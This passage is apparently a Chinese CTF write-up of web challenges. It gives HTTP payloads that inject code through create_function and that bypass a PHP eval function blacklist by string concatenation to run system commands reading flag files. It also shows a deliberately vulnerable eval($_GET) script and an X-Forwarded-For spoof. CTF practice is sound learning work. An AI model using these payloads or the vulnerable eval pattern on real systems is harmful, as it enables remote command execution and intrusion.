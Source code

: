 - 构造payload

``` http

POST : key=&a=good
GET : act=%5ccreate_function&arg=){}system('cat /ffflll4g');//

```

---

### web4

- 打开链接后，页面内容

```

好几个四季了，我在等我的主人回来
key：e086aa137fa19f67d27b39d0eca18610

```

- 对key进行md5解密，得出` key:1.1.1.1 `
- 刚开始尝试设置xff的值为` 127.0.0.1 ` ，但是并没有什么卵用。偶然之间试了一下传入xff的值为 ` 1.1.1.1 `，回显了下一步的链接

``` 
dhudndrgrhs.php
key：e086aa137fa19f67d27b39d0eca18610
```

- 访问链接后，读取源码

``` php
<?php
show_source(__FILE__);
error_reporting(0);
$disable_fun = ["assert","print_r","system", "shell_exec","ini_set", "scandir", "exec","proc_open", "error_log", "ini_alter", "ini_set", "pfsockopen", "readfile", "echo", "file_get_contents", "readlink", "symlink", "popen", "fopen", "file", "fpassthru"];
$disable_fun = array_merge($disable_fun, get_defined_functions()['internal']);
foreach($disable_fun as $i){
    if(stristr($_GET[shell], $i)!==false){
        die('xmctf');
    }
}
eval($_GET[shell]);
```

- 发现ban掉了好多函数，不过可以用拼接的方式绕过

- 构造paylaod

``` http
GET : shell=$a=sys;$b=tem;$c=$a.$b;$c('cat flag.php');
```

- 坑就在查看源码才有flag，可能是因为源码有` <?php ?>`

---